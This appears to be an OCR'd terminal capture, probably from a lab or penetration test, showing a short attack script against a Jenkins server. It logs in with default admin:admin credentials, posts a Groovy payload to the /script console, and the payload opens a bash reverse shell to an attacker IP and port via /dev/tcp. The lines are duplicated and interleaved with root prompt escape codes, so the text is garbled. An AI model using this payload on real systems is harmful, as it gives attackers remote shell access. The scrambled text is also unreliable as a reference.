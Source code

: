 ![](shell抓包.png)

```
JENKINS_URL="http://192.168.110.2:8080"

JENKINS_URL="http://192.168.110.2:8080"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# .[K
ATTACK_IP="192.168.56.104"

ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
USERNAME="admin"

ATTACK_PORT="12333"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
PASSWORD="admin"

USERNAME="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 


PASSWORD="admin"
.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
curl -X POST "$JENKINS_URL/script" \


.]0;root@a4c3a9a29065: /etc/cron.d.root@a4c3a9a29065:/etc/cron.d# 
  --user "$USERNAME:$PASSWORD" \

curl -X POST "$JENKINS_URL/script" \
> 
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \

  --user "$USERNAME:$PASSWORD" \
```